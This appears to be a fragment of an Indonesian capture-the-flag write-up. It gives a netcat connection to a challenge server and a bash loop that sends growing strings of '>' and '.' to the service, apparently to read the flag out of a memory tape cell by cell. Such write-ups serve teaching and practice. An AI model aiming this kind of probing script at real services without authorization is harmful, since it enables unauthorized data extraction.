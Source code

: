 diberikan koneksi nc 165.22.22.11 9999<br>

<img src="okk.png">
dimana flag terdapat pada setiap cell nya.<br>

```
#!/bin/bash
a='>'
for i in {1..200}
do
 echo "$a." | nc 165.22.22.11 9999
 a+=">"
done
```

